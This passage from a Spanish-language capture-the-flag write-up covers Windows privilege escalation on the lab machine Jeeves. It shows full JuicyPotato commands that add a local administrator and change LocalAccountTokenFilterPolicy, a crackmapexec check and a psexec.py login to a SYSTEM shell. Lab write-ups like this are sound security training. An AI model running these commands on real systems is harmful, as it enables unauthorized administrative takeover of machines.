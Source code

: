 ```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators yorch /add" -l 1337
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators yorch /add" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
Como último paso debemos modificar el registro de `LocalAccountTokenFilterPolicy` de la siguiente forma

```bash
JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Con la herramienta `crackmapexec` comprobamos que el usuario creado tiene máximos privilegios

```bash
❯ crackmapexec smb 10.10.10.63 -u 'yorch' -p 'yorch123'
SMB         10.10.10.63    445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63    445    JEEVES           [+] Jeeves\yorch:yorch123 (Pwn3d!)
```

Con la herramienta `psexec.py` procedemos a conectarnos a la máquina víctima con privilegios máximos

```bash
❯ /usr/share/doc/python3-impacket/examples/psexec.py WORKGROUP/yorch@10.10.10.63 cmd.exe
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file lnolJuMJ.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service FKJn on 10.10.10.63.....
[*] Starting service FKJn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
